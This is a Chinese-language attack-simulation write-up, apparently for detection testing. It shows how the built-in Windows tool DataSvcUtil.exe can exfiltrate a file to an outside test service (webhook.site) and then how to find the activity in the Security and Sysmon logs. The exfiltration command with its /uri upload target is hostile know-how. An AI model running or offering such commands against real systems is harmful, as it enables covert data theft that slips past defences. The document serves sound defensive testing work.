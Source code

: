 ### 环境准备
- **靶机**：Windows 10/11（含.NET Framework 3.5或4.0）。  
- **权限**：用户权限（无需管理员）。  
- **工具**：`DataSvcUtil.exe`（系统自带，路径如`C:\Windows\Microsoft.NET\Framework64\v3.5`）、Sysmon、测试Web服务（如`webhook.site`）。  
- **日志**：启用Windows安全日志、Sysmon日志，配置网络监控（如Wireshark）。  

### 攻击步骤
1. **验证工具路径**  
   - 确认`DataSvcUtil.exe`存在：
     ```cmd
     dir C:\Windows\Microsoft.NET\Framework64\v3.5\DataSvcUtil.exe
     ```

2. **执行渗出测试**  
   - 尝试上传文件到测试URL：
     ```cmd
     DataSvcUtil.exe /out:C:\Windows\System32\calc.exe /uri:https://webhook.site/xxxxxxxxx?encodedfile
     ```

3. **验证结果**  
   - 检查命令输出（可能因URL无效报404错误）：
     ```plaintext
     Microsoft (R) DataSvcUtil 版本 3.5.0.0
     正在写入对象层文件...
     错误 7001: 远程服务器返回错误: (404) 未找到。
     生成已完成 -- 1 个错误，0 个警告
     ```
   - 检查日志：  
     - **Windows安全日志（事件ID 4688）**：
       ```powershell
       Get-WinEvent -LogName Security | Where-Object { $_.Id -eq 4688 -and $_.Message -match "DataSvcUtil.exe" }
       ```
     - **Sysmon日志（事件ID 1）**：
       ```powershell
       Get-WinEvent -LogName "Microsoft-Windows-Sysmon/Operational" | Where-Object { $_.Id -eq 1 -and $_.Message -match "DataSvcUtil.exe" }
       ```
     - **Sysmon日志（事件ID 3）**：
       ```powershell
       Get-WinEvent -LogName "Microsoft-Windows-Sysmon/Operational" | Where-Object { $_.Id -eq 3 -and $_.Message -match "DataSvcUtil.exe" }
       ```
   - 检查网络流量（使用Wireshark确认HTTPS请求）。

4. **测试失败分析**  
   - **问题**：使用`https://www.baidu.com/`报404，因目标不支持OData或文件上传。  
   - **解决**：替换为支持接收数据的Web服务（如`webhook.site`或自建服务器）。  
   - **替代测试**：
     ```cmd
     DataSvcUtil.exe /out:C:\Temp\test.txt /uri:http://127.0.0.1:8080/upload
     ```

